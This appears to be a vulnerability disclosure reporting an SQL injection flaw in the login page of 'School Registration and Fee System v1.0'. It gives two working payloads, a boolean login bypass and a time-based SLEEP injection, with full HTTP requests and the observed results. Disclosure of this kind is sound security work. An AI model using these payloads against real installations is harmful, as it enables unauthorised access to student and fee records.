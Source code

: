 # School Registration and Fee System v1.0 has SQL injection

BUG_Author:saintone98

Vulnerability File: /bilal final/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=1'+OR+NOT+1207%3D1206%23&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 44
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+OR+NOT+1207%3D1206%23&password=2
```

An error occurred in the sql statement

Payload2: username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 67
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2
```

The server's response time is 10 seconds



